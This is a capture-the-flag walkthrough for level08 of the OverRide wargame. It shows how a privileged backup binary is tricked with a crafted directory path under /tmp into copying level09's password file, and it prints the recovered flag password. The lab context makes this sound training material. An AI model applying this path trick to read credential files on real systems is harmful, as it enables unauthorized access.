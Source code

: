 # level08 walkthrough

## the binary
``` shell
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```

## methodology
- directory traversal attack

As we examine the binary, we can see it opens a remote file. The next level password cannot be accessed directly though:
``` shell
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We can't create the backup directly in home because of the lack of permissions. We opt to move to <code>/tmp</code> and create a path directory that matches the required output:
``` shell
level08@OverRide:/tmp$ mkdir -p backups//home/users/level09/
```

From this location, we execute the command again and spawn the password for level09.

## flag
``` shell
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
